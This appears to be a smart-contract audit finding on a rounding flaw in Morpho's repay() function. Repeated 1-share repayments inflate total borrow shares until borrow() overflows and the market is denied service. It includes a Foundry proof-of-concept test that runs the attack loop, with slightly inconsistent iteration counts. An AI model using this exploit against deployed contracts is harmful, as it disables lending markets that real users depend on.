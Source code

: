 In `repay()`, whenever `shares` is specified, the calculation for `asset` rounds up:

```solidity
else assets = shares.toAssetsUp(market[id].totalBorrowAssets, market[id].totalBorrowShares);
```

As such, if `repay()` is called with `shares = 1`, `assets` will also round up to `1`, which means that only `1` share is burned when repaying `1` asset.

However, this does not follow the shares to assets ratio as `1` asset is actually worth `1e6` shares. An attacker can exploit this to inflate `totalBorrowShares`:

1. Assume a market starts with `1e6` shares and `1` asset.
2. Call `borrow()` with `assets = 1`, which mints `1e6` shares.
3. Call `repay()` with `shares = 1`, which burns `1` share and `1` asset.
4. Now, the market has `2e6 - 1` shares and `1` asset.
5. Therefore, the shares to assets ratio has doubled.

By repeating steps 2 and 3, the attacker can inflate `totalBorrowShares` until it is close to `uint128` max. 

This will cause `borrow()` to revert with an arithmetic overflow whenever it is called, since borrowing any substantial amount of assets will attempt to mint an amount of shares greater than `uint128` max, causing the market to be DOSed.

The following POC demonstrates that an attacker needs to repeat steps 2 and 3 exactly 107 times for `borrow()` to always revert when borrowing any amount of assets:

```solidity
// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.0;

import "test/forge/BaseTest.sol";

contract EOATokenTest is BaseTest {
    using MarketParamsLib for MarketParams;

    function test_canCreateMarketWithEOAToken() public {
        // Add supply and collateral for address(this)
        _supply(1e18);
        _supplyCollateralForBorrower(address(this));

        // Repeatedly repay 1 asset for burning 1 share
        for (uint256 i; i < 108; i++) {
            morpho.borrow(marketParams, 1, 0, address(this), address(this));
            morpho.repay(marketParams, 0, 1, address(this), "");
        }

        // totalBorrowShares is now larger than 1e38
        assertGt(morpho.market(id).totalBorrowShares, 1e38);

        // assets * totalShares overflows when borrowing 1 asset
        vm.expectRevert(stdError.arithmeticError);
        morpho.borrow(marketParams, 1, 0, address(this), address(this));
    }
}
```
 